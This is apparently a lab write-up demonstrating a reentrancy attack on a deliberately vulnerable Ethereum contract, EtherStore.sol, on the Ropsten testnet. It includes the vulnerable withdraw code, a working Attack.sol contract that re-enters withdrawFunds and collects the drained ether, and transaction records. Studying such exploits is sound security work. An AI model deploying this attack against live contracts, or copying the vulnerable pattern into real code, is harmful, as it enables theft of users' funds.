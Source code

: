 # Example - EtherStore.sol

#### EtherStore.Sol

```javascript
pragma solidity 0.4.18;
contract EtherStore {
    uint256 public withdrawalLimit = 0.1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

Note: `withdrawLimit` set to 0.1 ether.

Deployed on Ropsten:  
[https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39](https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39)

From \(Metamask\):  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To \(contract\):  
`0x52b2a43b59a39f4c863aa86da6c6fe73b33bdc73`

#### Attack.sol

pragma solidity 0.4.18;

contract EtherStore {

        function depositFunds\(\) public payable {}

        function withdrawFunds\(uint256\) public {}

    }

contract Attack {  
    //EtherStore public etherStore;  
    EtherStore public etherStore;

        function Attack\(address \_t\) public {  
        etherStore = EtherStore\(\_t\);  
    }

  function attackEtherStore\(\) public payable {  
      // attack to the nearest ether  
      require\(msg.value &gt;= 0.1 ether\);  
      // send eth to the depositFunds\(\) function  
      etherStore.depositFunds.value\(0.1 ether\)\(\);  
      // start the magic  
      etherStore.withdrawFunds\(0.1 ether\);  
  }

  function collectEther\(\) public {  
      msg.sender.transfer\(this.balance\);  
  }

  // fallback function - where the magic happens  
  function \(\) payable {  
      if \(etherStore.balance &gt; 0.1 ether\) {  
          etherStore.withdrawFunds\(0.1 ether\);  
      }  
  }  
}

[https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f](https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f)  
From:  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To:  
`0x733146fa7f8b40f4c97d946efeb7bdc9ff69ba6e`

Deposit some Eth from Metamask \(pretend this is some other user/victim\) to EtherStore \(to steal later\):  
[https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6](https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6)  
[![images/23-1.png](../../.gitbook/assets/23-1%20%281%29.png)](./)

I can now check the balance of my Metamask account by calling the `balances` mapping:

[![images/23-2.png](../../.gitbook/assets/23-2%20%281%29.png)](./)

Send 0.1 eth from the Attack.sol contract so that it has some balance to call `withdrawFunds()` later.

The following transaction sends 0.1 eth to Attack.sol's payable attackEtherStore\(\) function which will in turn deposit and subsequently withdraw funds from EtherStore.sol

From:  
`0x109Bb3673f445D8b0d2b04436D7b4a630B873B81`  
To:  
`0x733146Fa7F8B40f4c97d946EfEb7bdc9ff69BA6E`  
Tx:  
[https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a](https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a)

[![images/23-3.png](../../.gitbook/assets/23-3%20%281%29.png)](./)

Once executed, we can see the current balance is 0.1 eth, even though 0.5 was sent

[![images/23-4.png](../../.gitbook/assets/23-4%20%281%29.png)](./)

Because 5 ether were actually sent

Notice that the first Tx in the followig image shows 0.1 ether being sent from the Attack.sol address to EtherStore.sol, followed by 5 outgoing transacions from the EtherStore.sol to Attack.Sol contract. Now Attack.sol has 0.5 eth!!!

[![images/23-5.png](../../.gitbook/assets/23-5%20%281%29.png)](./)

Also the Attack.sol contract has a massive balance on EtherStore, not sure why:

[![images/23-6.png](../../.gitbook/assets/23-6%20%281%29.png)](./)

Calling CollectEther\(\) Sends those 0.5 eth back to our wallet address!

[https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93](https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93)  
[![images/23-7.png](../../.gitbook/assets/23-7%20%281%29.png)](./)

This becomes clearer is we export the internal transactions to csv:

[![images/23-8.png](../../.gitbook/assets/23-8%20%281%29.png)](./)


